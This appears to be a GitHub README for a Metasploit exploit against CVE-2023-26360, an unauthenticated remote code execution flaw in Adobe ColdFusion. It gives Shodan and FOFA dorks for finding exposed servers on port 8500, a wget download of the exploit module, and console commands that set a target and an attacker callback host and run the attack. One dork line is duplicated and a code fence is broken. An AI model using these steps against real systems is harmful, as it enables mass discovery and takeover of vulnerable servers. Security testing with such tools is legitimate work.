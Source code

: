 # CVE-2023-26360
Adobe ColdFusion Unauthenticated Remote Code Execution Exploit  

- Shodan dork:
```
CFIDE port:"8500"
```
- FOFA dork:
```
body="CFIDE"&&port="8500"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Adobe_Cold_Fusion_CVE-2023-26360/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
cp adobe_coldfusion_rce_cve_2023_26360.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
body="CFIDE"&&port="8500"
```
## Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set rhosts target_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set lhost attacker_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > run
```
